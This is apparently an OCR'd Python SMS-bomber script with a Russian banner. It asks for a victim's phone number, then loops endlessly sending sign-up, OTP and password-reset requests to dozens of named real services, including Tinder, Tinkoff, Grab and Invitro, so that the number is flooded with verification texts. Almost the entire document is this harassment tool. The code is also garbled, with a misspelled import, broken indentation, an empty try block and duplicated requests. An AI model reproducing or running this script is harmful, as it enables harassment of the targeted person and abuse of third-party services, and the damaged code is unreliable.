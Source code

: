 import threading
import time 
import request, random, datetime, sys, time, argparse, os
print("""
╭━━━╮╱╱╱╱╱╱╱╱╭╮╭╮
╰╮╭╮┃╱╱╱╱╱╱╱╭╯╰┫┃
╱┃┃┃┣━━┳━━┳╮┣╮╭┫╰━╮
╱┃┃┃┃┃━┫╭╮┃┃┃┃┃┃╭╮┃
╭╯╰╯┃┃━┫╭╮┃╰╯┃╰┫┃┃┃
╰━━━┻━━┻╯╰┻━━┻━┻╯╰╯ сделано вами""")
phone = input("\033[32m Введите номер +")
def qw(_phone):
    if _phone[0] == '+':
        _phone = _phone[1:]
    if _phone[0] == '8':
        _phone = '7'+_phone[1:]
    if _phone[0] == '9':
        _phone = '7'+_phone
_phone = phone
    _name = ''
    for x in range(12):
        _name = _name + 
        random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))
        password = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))
        username = _name + random.choice(list('123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'))
        _phone9 = _phone[1:]
    _phoneAresBank = '+'+_phone[0]+'('+_phone[1:4]+')'+_phone[4:7]+'-'+_phone[7:9]+'-'+_phone[9:11]
    _phone9dostavista = _phone9[:3]+'+'+_phone9[3:6]+'-'+_phone9[6:8]+'-'+_phone9[8:10]
    _phoneOstin = '+'+_phone[0]+'+('+_phone[1:4]+')'+_phone[4:7]+'-'+_phone[7:9]+'-'+_phone[9:11]
    _phonePizzahut = '+'+_phone[0]+' ('+_phone[1:4]+') '+_phone[4:7]+' '+_phone[7:9]+' '+_phone[9:11]
    _phoneGorzdrav = _phone[1:4]+') '+_phone[4:7]+'-'+_phone[7:9]+'-'+_phone[9:11]
    s = 0
    iteration = 0
    while True:
        _email = _name+f'{iteration}'+'@gmail.com'
        email = _name+f'{iteration}'+'@gmail.com'
       try:
       requests.post('https://p.grabtaxi.com/api/passenger/v2/profiles/register', data={'phoneNumber': _phone,'countryCode': 'ID','name': 'test','email': 'mail@mail.com','deviceToken': '*'}, headers={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36'})
        except:
            s=s
        try:
        requests.post('https://belkacar.ru/get-confirmation-code', data={'phone': _phone}, headers={})
        except:
            s=s
        try:
requests.post('https://api.gotinder.com/v2/auth/sms/send?auth_type=sms&locale=ru', data={'phone_number': _phone}, headers={})
        except:
            s=s
        try:
            requests.post('https://app.karusel.ru/api/v1/phone/', data={'phone': _phone}, headers={})
        except:
            s=s
try:
            requests.post('https://api.tinkoff.ru/v1/sign_up', data={'phone': '+'+_phone}, headers={})
        except:
            s=s

        try:
            requests.post('https://api.mtstv.ru/v1/users', json={'msisdn': _phone}, headers={})
        except:
            s=s

        try:
        requests.post('https://youla.ru/web-api/auth/request_code', data={'phone': _phone})
        except:
            s=s

        try:
            requests.post('https://pizzahut.ru/account/password-reset', data={'reset_by':'phone', 'action_id':'pass-recovery', 'phone': _phonePizzahut, '_token':'*'})
        except:
            s=s

        try:
            requests.post('https://www.rabota.ru/remind', data={'credential': _phone})
        except:
            s=s

        try:
            requests.post('https://rutube.ru/api/accounts/sendpass/phone', data={'phone': '+'+_phone})
        except:
            requests.post('https://www.citilink.ru/registration/confirm/phone/+'+_phone+'/')

        try:
            requests.post('https://www.smsint.ru/bitrix/templates/sms_intel/include/ajaxRegistrationTrigger.php', data={'name': _name,'phone': _phone, 'promo': 'yellowforma'})
        except:
            s=s

        try:
            requests.get('https://findclone.ru/register', params={'phone': '+' + _phone})
        except:
            s=s

        try:
            requests.get('https://www.oyorooms.com/api/pwa/generateotp?phone='+_phone9+'&country_code=%2B7&nod=4&locale=en')
        except:
            s=s

        try:
       requests.post('https://www.mvideo.ru/internal-rest-api/common/atg/rest/actors/VerificationActor/getCodeForOtp', params={'pageName': 'loginByUserPhoneVerification', 'fromCheckout': 'false','fromRegisterPage': 'true','snLogin': '','bpg': '','snProviderId': ''}, data={'phone': _phone,'g-recaptcha-response': '','recaptcha': 'on'})
        except:
            s=s

        try:
            requests.post('https://newnext.ru/graphql', json={'operationName': 'registration', 'variables': {'client': {'firstName': 'Иван', 'lastName': 'Иванов', 'phone': _phone,'typeKeys': ['Unemployed']}},'query': 'mutation registration($client: ClientInput!) {''\n  registration(client: $client) {''\n    token\n    __typename\n  }\n}\n'})
        except:
            s=s

        try:
            requests.post('https://api.sunlight.net/v3/customers/authorization/', data={'phone': _phone})
        except:
            s=s
        try:
            requests.post('https://alpari.com/api/ru/protection/deliver/2f178b17990ca4b7903aa834b9f54c2c0bcb01a2/', json={'client_type': 'personal', 'email': _email, 'mobile_phone': _phone, 'deliveryOption': 'sms'})
        except:
            s=s

        try:
            requests.post('https://lk.invitro.ru/lk2/lka/patient/refreshCode', data={'phone': _phone})
        except:
            s=s

        try:
            requests.post('https://online.sbis.ru/reg/service/', json={'jsonrpc':'2.0','protocol':'5','method':'Пользователь.ЗаявкаНаФизика','params':{'phone':_phone},'id':'1'})
        except:
            s=s

        try:
            
        try:
            requests.post("https://terra-1.indriverapp.com/api/authorization?locale=ru",data={"mode": "request", "phone": "+" + _phone,"phone_permission": "unknown", "stream_id": 0, "v": 3, "appversion": "3.20.6","osversion": "unknown", "devicemodel": "unknown"})
        except:
            s=s

        try:
            requests.post("https://lk.invitro.ru/sp/mobileApi/createUserByPassword", data={"password": password, "application": "lkp", "login": "+" + _phone})
        except:
            s=s

        try:
            requests.get('https://findclone.ru/register', params={'phone': '+' + _phone})
        except:
            s=s

        try:
            requests.post('https://ube.pmsm.org.ru/esb/iqos-phone/validate',json={"phone": _phone})

        except:
            s=s

        try:
            requests.post("https://api.ivi.ru/mobileapi/user/register/phone/v6",data={"phone": _phone})
        except:
            s=s
